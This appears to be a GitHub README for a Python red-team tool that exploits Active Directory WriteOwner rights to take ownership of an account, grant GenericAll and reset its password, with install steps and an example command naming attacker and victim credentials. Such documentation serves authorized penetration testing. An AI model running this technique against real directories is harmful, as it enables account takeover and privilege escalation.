 # Abuse-WriteOwner

## Overview

**Abuse-WriteOwner** is a Python script designed to automate the exploitation of the `WriteOwner` permission in Active Directory (AD) objects. This tool allows security professionals to:

1. Take ownership of an AD object.
2. Assign themselves `GenericAll` permissions on the object.
3. Reset the object's password.
4. Optionally clean up changes by removing `GenericAll` permissions.

This tool is intended for **authorized penetration testing and red team operations** only. Unauthorized use is illegal.

---

## Features

- Automates privilege escalation using `WriteOwner` in AD.
- Uses Impacket tools to modify ownership and permissions.
- Integrates the `net` command for password changes.
- Provides optional cleanup functionality.

---

## Requirements

### Tools

- **Impacket**: Ensure the `owneredit.py` and `dacledit.py` scripts from Impacket are in the working directory.
- **`net`**** Command**: Pre-installed on systems like Kali Linux, accessible via PATH.

### Environment

- Python 3.6 or higher.
- Operating system: Kali Linux or similar security-focused distributions.

### Permissions

- Attacker account must have `WriteOwner` permissions on the target AD object.

---

## Installation

1. Clone this repository:

   ```bash
   git clone https://github.com/your-username/WriteOwner-Abuse.git
   cd WriteOwner-Abuse
   ```

2. Install Impacket if not already installed:

   ```bash
   pip install impacket
   ```

3. Ensure `owneredit.py` and `dacledit.py` are in the script's directory.

---

## Usage

### Command Syntax

```bash
python writeowner_abuse.py \
  --domain <domain_name> \
  --attacker-user <attacker_username> \
  --attacker-password <attacker_password> \
  --victim-user <victim_username> \
  --domain-controller <domain_controller_fqdn> \
  --new-password <new_password>
```

### Example

```bash
python writeowner_abuse.py \
  --domain example.local \
  --attacker-user attacker1 \
  --attacker-password AttackerPass123 \
  --victim-user victim1 \
  --domain-controller dc.example.local \
  --new-password NewP@ssword123
```

### Cleanup

When prompted, you can choose to remove the added `GenericAll` permissions:

```bash
[?] Do you want to remove the added permissions? (yes/no): yes
```

---

## Legal Disclaimer

This tool is for educational purposes and authorized security assessments only. Unauthorized use of this tool against systems without explicit permission is illegal and unethical.

---

